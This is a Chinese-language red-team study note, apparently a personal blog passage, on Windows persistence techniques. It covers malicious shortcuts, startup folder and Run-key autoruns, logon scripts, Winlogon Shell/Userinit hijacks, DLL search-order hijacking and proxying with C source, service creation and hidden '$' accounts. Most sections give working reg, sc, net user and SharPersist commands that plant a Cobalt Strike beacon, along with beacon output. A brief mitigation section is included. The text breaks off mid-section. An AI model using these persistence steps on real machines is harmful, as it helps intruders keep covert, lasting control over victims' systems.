[RED TEAM Operator\_ Windows Persistence 06 - Shortcut Mods\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1DW4y1v725/?vd_source=2debf117b8b8f7d9793b4daac526786d)

模拟现有快捷方式，在打开时不影响正常应用还能触发木马，怎么做到的？

相当于直接新创建一个快捷方式，图标、文件名要与系统其他默认项一致，运行方式是最小化，防止弹出命令框。唯一不同的是要运行的目标 Taget 改成自定义的 vbs 脚本，脚本内先运行目标木马后运行正常应用。

不能 RDP 登录目标机器，命令行交互界面怎么创建？两种方法，但猜测它们原理都是一致的，都是调 Win32 API。

1.使用 VBS 脚本创建

```plaintext
Set WshShell = WScript.CreateObject("WScript.Shell")
strDesktop = WshShell.SpecialFolders("Desktop") '特殊文件夹“桌面”
'Rem 在桌面创建一个记事本快捷方式
set oShellLink = WshShell.CreateShortcut(strDesktop & "\Internet Explorer.lnk")
oShellLink.TargetPath = "C:\Program Files\Internet Explorer\iexplore.exe"  '可执行文件路径
oShellLink.Arguments = "http://www.downyi.com/" '程序的参数
oShellLink.WindowStyle = 1 '参数1默认窗口激活，参数3最大化激活，参数7最小化
oShellLink.Hotkey = ""  '快捷键
oShellLink.IconLocation = "C:\Program Files\Internet Explorer\iexplore.exe, 0"  '图标
oShellLink.Description = ""  '备注
oShellLink.WorkingDirectory = "C:\Program Files\Internet Explorer\"  '起始位置
oShellLink.Save  '创建保存快捷方式
```

2.通过 Windows API 创建

### 2.3 Login

#### 2.3.1 Registry Run Keys / Startup Folder

[Startup Folder Persistence - Google 搜索](https://www.google.com/search?q=Startup+Folder+++Persistence+&biw=1488&bih=762&sxsrf=APwXEddMqBwlpnAz43zxfYrtA1NdBbutTw%3A1682642682890&ei=-hZLZKX7Nc-ooASmjr7gAw&ved=0ahUKEwil4Ja7rMv-AhVPFIgKHSaHDzw4ChDh1QMIDw&oq=Startup+Folder+++Persistence+&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQDDIECAAQHjIGCAAQBRAeMgYIABAFEB4yBggAEAgQHjIGCAAQCBAeOgoIABBHENYEELADOgUIABCABDoICAAQgAQQywE6BggAEB4QDzoICAAQBRAeEA86CAgAEAgQHhAKOgUIIRCgAUoECEEYAFBxWKr0AWCq-gFoBHABeACAAYMCiAHmD5IBAzItOZgBAKABAqABAcgBCsABAQ&sclient=gws-wiz-serp)

[RED TEAM Operator\_ Windows Persistence 04 - Start Folder and Registry Keys\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1RG411g7q6/?spm_id_from=333.788.recommend_more_video.2&vd_source=2debf117b8b8f7d9793b4daac526786d)

[RED TEAM Operator\_ Windows Persistence 05 - Logon Scripts\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1st4y1w7Ho/?spm_id_from=333.788.recommend_more_video.8&vd_source=2debf117b8b8f7d9793b4daac526786d)

启动项就是程序开机自启动。

1.Startup Folder

在启动项目录创建文件不需要管理员权限，普通用户即可。

```plaintext
beacon> shell dir "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
[*] Tasked beacon to run: dir "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
[+] host called home, sent: 92 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 1A02-7BC7

 C:\Users\123\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup 的目录

2023/04/28  10:47    <DIR>          .
2023/04/01  20:01    <DIR>          ..
2023/04/02  12:17             1,314 Send to OneNote.lnk
               1 个文件          1,314 字节
               2 个目录 38,543,970,304 可用字节
```

SharPersist 创建启动项，-f 是指定文件名。

```plaintext
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t startupfolder -c "C:\Users\123\Desktop\beacon.exe" -f filename -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: File Name: filename


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\123\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\filename.lnk
[*] INFO: SHA256 Hash of LNK file: 03202ADEF2ABA136221A5788A24EC22FB8010A5B802F879C8B12B73DADF17F6D
```

进入 `C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 发现是在当前用户启动目录下创建 IE 快捷方式，运行方式还是最小化，经过测试，常规、最小化、最大化都不会弹出命令行窗口。



这个图标还可以在任务管理器中体现。



重启机器后，就算不登陆，也会运行 beacon.exe。这个 beacon.exe 完整性级别是中等。

如果想任何用户启动，可以将快捷方式移动到全局启动目录内，系统的普通用户有权读写。Windows 11 测试失败，还是只有 123 用户上线 root 没上线.

```plaintext
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
  RW RAINGRAY\gbb
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  BUILTIN\Users
  R  Everyone
```

2.Registry AutoRun

注册表启动项分两类，一个是当前用户，另一个是当前机器，放在 Run 里的字符串登录后运行，[RunOne](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys) 也是登陆后后运行，区别在于只启动一次，一次性的原理也很简单，是启动后自动删除注册表，这样下次登陆时不会再重复运行。

-   HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前用户每次登录都启动
    
    HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    
-   HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run，当前机器内任意用户每次登录都启动
    
    HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce，只启动一次
    

对 HKCU 注册表操作，普通用户就能创建注册表。

利用只需在注册表新建一个名为 OPENVPN-CLI 字符串，值是木马绝对路径。

```bash
PS C:\Users\123> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /d "C:\Users\123\AppData\Roaming\beacon.exe"
操作成功完成。
PS C:\Users\123> reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

SharPersist 也可以自动化 完成此操作。

```plaintext
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t reg -k hkcurun -v OPENVPN-CLI -c "C:\Users\123\Desktop\beacon.exe" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: OPENVPN-CLI
[*] INFO: Option:


[+] SUCCESS: Registry persistence added
PS C:\Users\123\Desktop> reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
    OPENVPN-CLI    REG_SZ    C:\Users\123\Desktop\beacon.exe
```

注销、重启登录，上线中完整性级别 Beacon。

HKLM 和 HKCU 有什么区别？HKCU 是当前用户启动项，HKLM 就是当前机器的启动项，当前任何用户登录机器后都会自动启动 Beacon。但操作 HKLM 需要高完整性级别。尝试使用 root 登录，没有执行 beacon.exe。

清除注册表启动项。

```plaintext
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OPENVPN-CLI /f
```

#### 2.3.2 Logon Script

使用普通用户权限，对用户坏境变量注册表 HKCU\\Environment 项，创建字符串 UserInitMprLogonScript，值为 bat 批处理脚本或可执行文件绝对路径。

```plaintext
PS C:\Users\123> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Users\123\AppData\Roaming\beacon.exe"
PS C:\Users\123> reg query HKCU\Environment /v UserInitMprLogonScript

HKEY_CURRENT_USER\Environment
    UserInitMprLogonScript    REG_SZ    C:\Users\123\AppData\Roaming\beacon.exe
```

登陆时执行会自动执行上线，得到中完整性 Beacon。

刚开始 beacon.exe 还是由父进程 userinit.exe 启动。



等待一会儿 userinit.exe 自动退出，beacon.exe 父进程消失，很是奇怪。



清除注册表启动脚本。

```plaintext
reg delete "HKCU\Environment" /v UserInitMprLogonScript /f
```

PS：既然可以使用 bat 那可以创建几十个 bat 脚本，文件名还都是正常的那种，通过 call 调用其他 bat，一层层调，套娃，让手工难度加大。怎么创建？最好通过 Windows API 来自动化完成这些内容。

#### 2.3.3 WinLogon

[https://www.bilibili.com/video/BV1N841147LY](https://www.bilibili.com/video/BV1N841147LY)

[Windows Persistence Logon Helper Winlogon - Google 搜索](https://www.google.com/search?q=Windows+Persistence+Logon+Helper+Winlogon+&sxsrf=APwXEdeDaz9tt1C2c4Jf83VDWduHRhsLEg%3A1682750954223&ei=6r1MZNSPDZGF2roP-feGkA8&ved=0ahUKEwjUrPzmv87-AhWRglYBHfm7AfIQ4dUDCA8&uact=5&oq=Windows+Persistence+Logon+Helper+Winlogon+&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIFCCEQoAEyBQghEKABMgUIIRCgATIFCCEQoAEyBQghEKABSgQIQRgBUPMBWIsDYOgEaAFwAHgAgAHrAYgBtQOSAQMyLTKYAQCgAQGgAQLAAQE&sclient=gws-wiz-serp)

WinLogon 涉及用户登录时初始化应用和 GUI Shell 的操作，可以通过修改注册表的方式运行正常初始化操作时顺便运行木马：

-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Shell，System GUI Shell
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit，初始化用户
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify，

因为要修改注册表 HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon 项，需管理员权限，高完整性才能操作。这样好处自然是系统任何用户登录都能获得对应登录用户的权限，如果只是获得当前用户权限，只需将注册表 HKLM 换成 HKCU 注册表则普通用户权限修改即可。

1.Shell

默认值。

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe
```

设置 Shell 值时，没有指定类型，因为默认字符串类型是 REG\_SZ 这里指定或者不指定都行。设置的值简写 beacon.exe 会在 C:\\WIndows\\System32 目录找，因此需要把 beacon.exe 放到此目录内，不过防止需要管理员权限操作，为了省事当然放到其他目录中写绝对路径。使用 /f 选项是因为值已经存在要覆盖原有值。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe, beacon.exe
```

重新登录获得权限。



恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /d "explorer.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 和 HKLM 都成功执行。

2.Userinit

默认值

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\windows\system32\userinit.exe,
```

直接修改值，在逗号后面新增木马绝对路径，放 C:\\windows\\system32 下或是其他位置都行。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe
```

重启登录即生效，直接作为 winlogon 子进程运行。



恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\System32\userinit.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 没有执行。

3.Notify

此字符串默认是不存在的，需要主动创建。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Notify /d "C:\beacon.exe"
操作成功完成。
PS C:\Users\123> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Notify

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Notify    REG_SZ    C:\beacon.exe
```

经过测试，发现没有执行。

恢复原状。

```plaintext
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Notify /f
```

PS：Windows 11 H2 (22621.1635) HKCU 和 HKLM 都没有执行。

### 2.4 DLL Hijacking and Proxying

[DLL (Dynamic Link Library)](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) 其实就是一个可执行程序需要加载的模块，里面包含一些类、函数、变量等内容。

默认使用 `LoadLibrary(dllname.dll)` 直接向写 dll 名称加载，DLL 会有个[查找顺序](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)：

1.  应用内存。
    
    确认之前有没加载过
    
2.  注册表
    
    确认值里有没对应名称 DLL。
    
    ```plaintext
     HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
    ```
    
3.  应用目录
    
    应用目录下找有没匹配名称 DLL
    
4.  系统目录
    
    ```plaintext
     %SystemRoot%\system32
    
     %SystemRoot%\System
    
     %SystemRoot%\SysWOW64
    ```
    
5.  Windows 目录 C:\\Windows
    
6.  当前目录
    
7.  环境变量
    
    -   SYSTEM 系统环境变量 Path
    -   USER 用户环境变量 Path

知道加载顺序后，如果应用加载 DLL 时从上到下按照优先级位置加载，最终在系统目录 %SystemRoot%\\system32 中找到，只要我们提前把恶意 DLL 放置到应用目录内，按照加载目录优先级来看，就可以让程序加载恶意 DLL。

如果应用调原本要调用正常 DLL 某个方法，去调向恶意 DLL 中找，没找到应用可能 Crash 。而使用代理就可以解决此问题，通过对原有 DLL 做包装，如果应用需要调某个函数，全由恶意 DLL 帮忙去调用，这样不影响应用正常功能，又能触发恶意操作。

通过攻击者视角来看完整 DLL 持久化需要这样几步：

1.  找到会启动的应用
    
    不管是自启动还是用户每次开机都会打开的应用，只有能打开应用后面劫持才会生效，这一步是确认用户习惯。
    
2.  对应目录有权限写。
    
    使用 [icalcs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) 检查目标目录是否有写入权限。在使用 DLL 劫持时一般只需要普通用户权限，中完整性，除非个别目录专门设置了权限，比如杀毒软件火绒，它的应用目录就只允许普通用户读取和执行程序，只有管理员才能写入。
    
    
    
    最简单粗暴的方式就是直接创建个文件到目录看是否存在。
    
    ```plaintext
     echo  > 1121.txt
    ```
    
3.  应用存在 DLL 劫持
    
    确认应用版本后，在本地测试机完成利用，再将 DLL 上传到受害者机器。
    

#### 2.4.1 DLL Search Order Hijacking

使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 监控应用 DLL 加载过程。

点击过滤器。



写了五条过滤规则，第一条是只显示进程名为 BingWallpaperApp.exe 所做的任何内容，第二条是程序 Operation 是 CreateFile 的内容，这代表加载 DLL，第三条 QueryOpen 也是一个查询加载 DLL 的操作，第四条是匹配加载结果为 "NAME NOT FOUND" 的内容，这说明 DLL 没找到，第四条是路径要以 .dll 结尾。

这几条规则一起运行，这样就能过滤出名为 BingWallpaperApp.exe 的应用，.dll 加载时没找到文件的内容。



Process Monitor 还有很多常见操作，这里列出一些做介绍：

> Appendix A - Common Process Functions
> 
> Registry Operations:
> 
> RegOpenKey  
> The process opened the Registry key specified in the Path column.
> 
> RegCloseKey  
> The process closed the Registry key specified in the Path column.
> 
> RegQueryValue  
> The process queried for the value of the Registry value listed in the Path statement. The value retrieved is listed in the Detail column.
> 
> RegEnumValue  
> The process is querying the value names and their data for the key in the Path. You will see repeated RegEnumValue and RegQueryValue operations until all the values under this key have been enumerated.
> 
> RegQueryKey  
> The process queried the Registry key listed in the Path for information about the key. This information, such as the amount of values or subkeys underneath it, is displayed in the Detail column.
> 
> RegEnumKey  
> The process queried the Registry key listed in the Path for information about it’s subkeys. You will see further RegEnumKey entries until there are no more subkeys to enumerate.
> 
> RegCreateKey  
> The process attempted to create the key specified in the Path column.
> 
> RegSetValue  
> The process created or set the data of the value in the Path column with the information from the Detail column.
> 
> File Operations:
> 
> QueryBasicInformationFile (FASTIO\_QUERY\_INFORMATION)  
> The process queried the file in the Path column for one of the following attributes:  
> CreationTime, LastAccessTime, LastWriteTime, ChangeTime, FileAttributes
> 
> QueryStandardInformationFile(FASTIO\_QUERY\_INFORMATION)  
> The process queried the file in the Path column for one of the following attributes:  
> AllocationSize, EndOfFile, NumberOfLinks, DeletePending, Directory
> 
> QueryNameInformationFile (IRP\_MJ\_QUERY\_INFORMATION)  
> The process queried the file in the Path column for one of the following attributes: FileNameLength, FileName
> 
> SetBasicInformationFile (IRP\_MJ\_SET\_INFORMATION)  
> The process changed one of the following attributes in the file in the Path field:  
> CreationTime, LastAccessTime, LastWriteTime, ChangeTime, FileAttributes
> 
> QueryOpen (FASTIO\_NETWORK\_QUERY\_OPEN)  
> Appears before each CreateFile operation, checks for file specified in the Path.
> 
> CreateFile (IRP\_MJ\_CREATE)  
> The process opened or created the file specified in the Path. Whether the file was opened or created can be determined by the Disposition value in the Details column.
> 
> CloseFile (IRP\_MJ\_CLEANUP)  
> The process closed the file specified in the Path.
> 
> QueryDirectory (IRP\_MJ\_DIRECTORY\_CONTROL)  
> The process queried the contents of the directory listed in the Path. This listing will be found in the Details column.
> 
> WriteFile (IRP\_MJ\_WRITE)  
> The process wrote data to the file specified in the Path. The location written to in the file and the amount of data is specified in the Details column.
> 
> ReadFile (IRP\_MJ\_READ)  
> The process is reading the file specified in the Path statement. The Details column will tell you how many bytes were read during this operation. You  
> will see more ReadFile operations until an End of File (EOF) is reached.
> 
> SetEndOfFileInformationFile (IRP\_MJ\_SET\_INFORMATION)  
> The process set the offset which the file’s End of File should be set to. This value is listed in the Details column.
> 
> SetRenameFileInformationFile (IRP\_MJ\_SET\_INFORMATION)  
> The process renamed the file or directory in the Path column to the file or directory found in the Details column.
> 
> Process Operations:
> 
> Thread Create  
> The process opened the Registry key specified in the Path column..
> 
> Thread Exit  
> The process closed the Registry key specified in the Path column.
> 
> Process Exit  
> The process queried for the value of the Registry value listed in the Path statement. The value retrieved is listed in the Detail column.
> 
> \[Windows XP Boot Milestones & Behaviour.pdf (danielpeart.net)\]([http://www.danielpeart.net/pdf/Windows](http://www.danielpeart.net/pdf/Windows) XP Boot Milestones & Behaviour.pdf)

应用过滤器后，发现应用 BingWallpaperApp.exe 加载自身安装目录内 C:\\Users\\gbb\\AppData\\Local\\Microsoft\\BingWallpaperApp\\ncrypt.dll 加载失败。



要确认下上下加载过程，最终有没加载成功。这里去除结果筛选，观察上下流。



检查发现最终成功加载 C:\\Windows\\SysWOW64\\ncrypt.dll。可以判断只要在应用目录中放置 ncrypt.dll 那么一定会先加载应用目录内的文件，这样就实现了劫持。



**恶意 [DLL 创建](https://learn.microsoft.com/en-us/cpp/build/walkthrough-creating-and-using-a-dynamic-link-library-cpp?view=msvc-170)**

创建恶意 DLL 源码 ncrypt.c。当 [LoadLibrary()](https://learn.microsoft.com/en-us/windows/win32/dlls/using-run-time-dynamic-linking) 加载恶意 DLL 时会进入 [DllMain](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain) 入口，并且会执行到 DLL\_PROCESS\_ATTACH 中，我们的恶意操作是弹出一个消息框。

```c
#include <windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH: // DLL 第一次被进程调用时
        // 弹消息框
        MessageBox(NULL, "Msg Content", "Msg Title", MB_ICONERROR | MB_OK);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

编译前还要看应用要加载的 C:\\Windows\\SysWOW64\\DWrite.dll 是 32 还是 64 位，不要编译错版本。

```plaintext
PS E:\desktop> & "E:\Microsoft Visual Studio\2022\Enterprise\VC\Tools\MSVC\14.35.32215\bin\Hostx86\x64\dumpbin.exe" /headers C:\Windows\SysWOW64\ncrypt.dll | findstr "machine "
             14C machine (x86)
                   32 bit word machine
```

或者也可以看应用到底是多少位的，一个 32 位应用不可能加载 64 位 DLL。



Linux 下编译对应位数 DLL。

```plaintext
// Linux C 语言 64 位 DLL 编译
x86_64-w64-mingw32-gcc ncrypt.c -o ncrypt.dll -shared

// Linux C 语言 32 位 DLL 编译
i686-w64-mingw32-gcc ncrypt.c -o ncrypt.dll -shared
```

将恶意 DLL 放入应用目录，打开应用观察，DLL 加载成功。



DLL 也运行被加载时的 MessageBox 方法，成功显示对话框。



#### 2.4.2 DLL Proxing

有些应用确实能证明存在 DLL 劫持，但问题在于应用会自动退出，这在实战中没法做到权限维持。造成此情况的原因可能是应用要调用原本正常的 dll 某个方法，而恶意 DLL 中没有，应用也没处理好 Crash，直接停止运行。而使用 Linker 可以解决此问题，通过对原有 DLL 做包装，如果应用需要调某个函数，全由恶意 DLL 帮忙去调用，这样不影响应用正常功能，又能触发恶意操作。

***PS：需要找出一个实例验证 DLL 代理，而且怎么证明应用异常是因为调用不存在的方法导致的？***

这需要知道应用要调哪些函数，以及怎么做转发。

和正常劫持流程一样，首先我们要确认这个 dll 最终成功加载的是哪个 dll，这里假设是从 Application Dir 找没找到，最终读取的是 C:\\Windows\\SysWOW64\\DWrite.dll。

查询 DWrite.dll 调的哪些函数，通过 Visual Studio 自带的 dumpbin 工具，查询 C:\\Windows\\SysWOW64\\DWrite.dll 对外导出的方法（也就是哪些方法能够被应用调用），这里发现只使用了 DWriteCreateFactory。

```plaintext
PS E:\desktop> & "E:\Microsoft Visual Studio\2022\Enterprise\VC\Tools\MSVC\14.35.32215\bin\Hostx86\x64\dumpbin.exe" /exports C:\Windows\SysWOW64\DWrite.dll
Microsoft (R) COFF/PE Dumper Version 14.35.32216.1
Copyright (C) Microsoft Corporation.  All rights reserved.


Dump of file C:\Windows\SysWOW64\DWrite.dll

File Type: DLL

  Section contains the following exports for DWrite.dll

    00000000 characteristics
    EA372190 time date stamp
        0.00 version
           1 ordinal base
           1 number of functions
           1 number of names

    ordinal hint RVA      name

          1    0 000A9F10 DWriteCreateFactory

  Summary

        8000 .data
        1000 .didat
        2000 .idata
        E000 .reloc
       1B000 .rsrc
      1E3000 .text
```

知道有哪些方法了，怎么转发呢？这需要用到 [#pragma comment](https://learn.microsoft.com/en-us/cpp/preprocessor/comment-c-cpp?view=msvc-170)。

```cpp
#pragma comment(linker,"/export:<Function Name>=<DLL Name>.<Function Name>,@0")
```

这句 [pragma](https://learn.microsoft.com/en-us/cpp/preprocessor/comment-c-cpp?view=msvc-170) 是说把 DWriteCreateFactory 链接到 DWrite.dll 中 DWriteCreateFactory，@1是 ordinal（对应上面查询结果中的 hint）。

```c
#pragma comment(linker,"/export:DWriteCreateFactory=DWrite.DWriteCreateFactory,@1")
```

如果有几十条不可能手动一个个填，很费时，那么可以用到 [DLL Export Viewer](http://www.nirsoft.net/utils/dll_export_viewer.html) 查看导出的方法。



在 HTML 中查看结果。



通过 JS 自动获取节点值，半自动生成代码。

```javascript
let trObj = document.querySelectorAll("body > p > table > tbody > tr:not([bgcolor=E0E0E0]")

let commons = ''

trObj.forEach(function (o) {
    functionName = o.childNodes[0].textContent
    ordinal = o.childNodes[3].textContent.replace(/\s(.*)/i, '')
    dllFileName = o.childNodes[4].textContent.replace(/\.dll$/i, '')
    commons += `#pragma comment(linker,"/export:${functionName}=${dllFileName}.${functionName},@${ordinal}")` + "\n"
})

console.log(commons)
```



将其加到头部，重新编译。

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

#include <windows.h>

// C:\Windows\SysWOW64\DWrite.dll 方法
#pragma comment(linker,"/export:DWriteCreateFactory=DWrite.DWriteCreateFactory,@1")

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL, "Msg Content", "Msg Title", MB_ICONERROR | MB_OK);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

这次编译使用 Visual Studio 编译。

先创建项目。

  


过程中如果出现字符类型不匹配时，修改字符集为 ”使用多字节字符集“ 重新编译即可。

  


编译时通过解决方案平台处，选择 x64 还是 x86。



选好后点击生成解决方案，去编译。



编译完成，查看控制台输出路径找到编译结果，传到应用目录。

```plaintext
已启动生成...
1>------ 已启动生成: 项目: DWrite, 配置: Release Win32 ------
1>pch.cpp
1>dllmain.cpp
1>  正在创建库 E:\Desktop\DWrite\Release\DWrite.lib 和对象 E:\Desktop\DWrite\Release\DWrite.exp
1>正在生成代码
1>0 of 1 functions ( 0.0%) were compiled, the rest were copied from previous compilation.
1>  0 functions were new in current compilation
1>  0 functions had inline decision re-evaluated but remain unchanged
1>已完成代码的生成
1>DWrite.vcxproj -> E:\Desktop\DWrite\Release\DWrite.dll
========== 生成: 1 成功，0 失败，0 最新，0 已跳过 ==========
========= 生成 开始于 10:28 PM，并花费了 01.008 秒 ==========
```

#### 2.4.3 Mitigation

在使用 LoadLibrary() 时写 DLL 绝对路径，一旦找不到 DLL 就停止应用。

限制应用目录写入权限。

[安全加载库以防止 DLL 预加载攻击 - Microsoft 支持](https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1)

[Windows DLL 代理/劫持 – 开发博客 (cihansol.com)](https://cihansol.com/blog/index.php/2021/09/14/windows-dll-proxying-hijacking/#mitigation-and-security)

### 2.5 COM Hijacking⚒️

### 2.6 Service⚒️

[RED TEAM Operator\_ Windows Persistence16 - Modified Services\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1FV4y1T7J2/?spm_id_from=333.999.0.0)

[Malware development: persistence - part 4. Windows services. Simple C++ example. - cocomelonc](https://cocomelonc.github.io/tutorial/2022/05/09/malware-pers-4.html)

#### 2.6.1 Create or Modified Service

操作服务这在[权限提升](https://www.raingray.com/archives/2346.html#Service)一文中有提到过，需要管理员权限，高完整性 Shell。

1.创建服务

这里 binpath 程序不能写一般的 Payload，不然你看看到运行起来过一会儿会自动停止程序。最简单的就是直接拿 CS 或者 MSF 生成一个 Service 木马可执行文件，但这样无法过 AV。

最好需要手动实现 Service 功能才行，从 Service 功能里面启动我们的程序，这里 C#、C++ 都可以创建服务（目前还没能力单独写服务，虽然可以抄别人代码，或许后面会更新此小节）。

```plaintext
C:\Users\123>SC CREATE ServicePrivilegeEscalation binpath= "\"C:\Users\123\Desktop\beaconsrv.exe\"" DisplayName= "Service Persistence" start=auto
[SC] CreateService 成功
```

创建完后查看服务发现是默认以 LocalSystem 账户登录的。唯一的缺陷是描述是空的显突兀。

```plaintext
C:\Users\123>SC qc ServicePrivilegeEscalation
[SC] QueryServiceConfig 成功

SERVICE_NAME: ServicePrivilegeEscalation
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Users\123\Desktop\beaconsrv.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Service Persistence
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

2.修改先有服务

找一个已禁用的服务，直接修改 binpath= 现有服务的可执行文件路径指向我们的木马，修改启动模式 start= 让其自启动，修改启动服务的用户 obj= 为 SYSTEM。

```plaintext
SC CONFIG ServicePrivilegeEscalation binpath= "\"E:\program files\sub dir\program name.exe\"" start= auto obj= "LocalSystem"
```

3.恢复原状

在不需要维持的时候，停止并删除服务。或者恢复原有配置。

```plaintext
sc stop ServicePrivilegeEscalation
sc delete ServicePrivilegeEscalation
```

#### 2.6.2 IIS⚒️

[https://github.com/0x09AL/IIS-Raid](https://github.com/0x09AL/IIS-Raid)

#### 2.6.3 SQL Server⚒️

### 2.7 Create Account

本小节来看看如何既达到隐藏一个通过 RID 劫持的账户，这样即可以隐藏账户又能获得管理员 Administrator 权限，不过 RID 劫持在实战中利用，默认配置下需要 SYSTEM 权限才能操作。

#### 2.7.1 Hidden Account

国内也叫影子账户，这个技术很古早，单拎出来也没多大用。

创建普通用户在用户名后面添加 Dollar 符号。

```plaintext
net user <account name>$ <password> /add
```

创建的 test 用户发现使用 net user 命令无法查询到。

```plaintext
PS C:\Users\123> net user

\\DESKTOP-AKRQV41 的用户帐户

-------------------------------------------------------------------------------
123                      Administrator            DefaultAccount
Guest                    root                     WDAGUtilityAccount
命令成功完成。

PS C:\Users\123> net user test$ 123123 /add
命令成功完成。

PS C:\Users\123> net user

\\DESKTOP-AKRQV41 的用户帐户

